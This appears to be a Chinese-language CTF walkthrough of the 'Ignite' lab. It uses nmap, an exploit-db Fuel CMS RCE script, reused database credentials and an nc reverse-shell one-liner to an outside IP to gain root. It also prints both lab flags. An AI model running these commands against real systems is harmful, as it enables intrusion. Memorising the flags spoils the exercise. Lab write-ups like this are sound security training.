



# Ignite
## 取得 initial shell

首先拿到 ip `10.10.109.28`，並確認機器已上線

`ping 10.10.109.28`


接著使用 nmap 工具查看有哪些服務可供利用

`nmap -v 10.10.109.28`


`nmap -v -sV -p- -sC --min-rate 5000 10.10.109.28`



可以看到只有開啟一個 http 服務而已

```
80      http        Apache httpd 2.4.18
```

既然有網頁服務，那可以先用瀏覽器打開看看，可以發現首頁是 fuel CMS 的預設頁面，那可以知道這個網頁是用 fuel CMS 搭建的，且版本為 1.4，可以嘗試找看看該版本是否有漏洞


從 exploitdb 上可以很清楚地找到幾個 RCE 的腳本，而我選擇使用[這個 exploit](https://www.exploit-db.com/exploits/50477)，不過基本上其他的應該也能跑

`python 50477.py -u http://10.10.109.28/`


可以發現確實取得了 shell，且拿到 `www-data` 的身分

首先來找 userflag，經過查找可以發現是在 `/home/www-data/flag.txt` 之中



```
6470e394cbf6dab6a91682cc8585059b
```

## 提權

接著需要想辦法提權，我一開始嘗試檢查 sudo 身分而發現因為是非 interactive shell 的關係無法查看，而後嘗試看 crontab 也沒有看到奇怪的排程，另外也嘗試過 ps 找高權限執行檔也沒有看到能夠利用的部分，而也嘗試過找 SUID 但因為花費時間太久跑不出來，同理 linPEAS 也是如此

因此在無計可施的情況下，我看了一下作者的影片 writeup，發現了提權的方法

首先可以從題目的副標題得知這是一個 startup 的網站，因此可以推測一些帳號管理上面會有不嚴謹的問題，所以可能會在服務中重複使用密碼的問題，所以可以先嘗試看一下相關設定檔

而在 `/var/www/html/fuel/application/config/database.php` 檔案中可以發現 mysql 的帳號密碼，使用者是 root，可以推測這邊的密碼是重複使用原先 root 的密碼



為了證實這個猜想，需要嘗試登入看看，因此需要一個 interactive shell，所以需要想辦法升級現有的 shell

首先可以先產出一個 reverse shell 以方便作業，輸入以下指令即可將 shell 打回自己機器 (這邊我有試過另一個我比較常用的 reverse shell 打法，但是無法成功，我也不知道為什麼)

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.17.31.45 2023 > /tmp/f`

不過即使如此，得到的也還是一個 non-interactive shell，因此還需要再額外生出 interactive shell


使用以下指令，生出 interactive shell

`python -c 'import pty; pty.spawn("bash")'`

可以發現成功取得了 interactive shell


接著來嘗試驗證前面的假設，使用 `su -` 變換身分到 root 並輸入前面看到的密碼


成功取得 root 身分！

rootflag 在 `/root/root.txt` 中


```
b9bbcb33e11b80be759c4e844862482d
```

至此，已取得這台機器的完整權限